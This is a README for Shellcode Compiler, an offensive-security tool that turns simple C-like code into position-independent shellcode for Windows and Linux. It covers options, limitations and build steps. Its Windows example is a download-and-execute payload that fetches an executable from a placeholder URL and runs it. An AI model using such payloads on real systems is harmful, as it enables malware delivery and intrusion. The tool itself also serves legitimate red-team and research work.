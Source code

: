 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows (x86 and x64) and Linux (x86 and x64). It is possible to call any Windows API function or Linux syscall in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with Keystone engine.

# Command line options

        -h (--help)      : Show this help message
        -p (--platform)  : Shellcode platform: win_x86,win_x64,linux_x86,linux_x64
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Windows example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);

# Linux example

        chmod("/root/chmodme",511);
        write(1,"Hello, world",12);
        kill(1661,9);
        getpid();
        execve("/usr/bin/burpsuite",0,0);
        exit(2);

# Invocation example

        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm -p win_x64
        
# Limitations

1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

Multiple other limitations exists as well.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog

1. Initial support for Windows x64
2. Initial support for Linux (x86 and x64) shellcodes

# Keystone compilation

1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio 2019 - x86 (for 32 bits) and x64 (for 64 bits) "Native Tools Command Prompts" and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone_x86.lib (for 32 bits) and keystone_x64.lib (for 64 bits)

# Author

Ionut Popescu (@NytroRST)
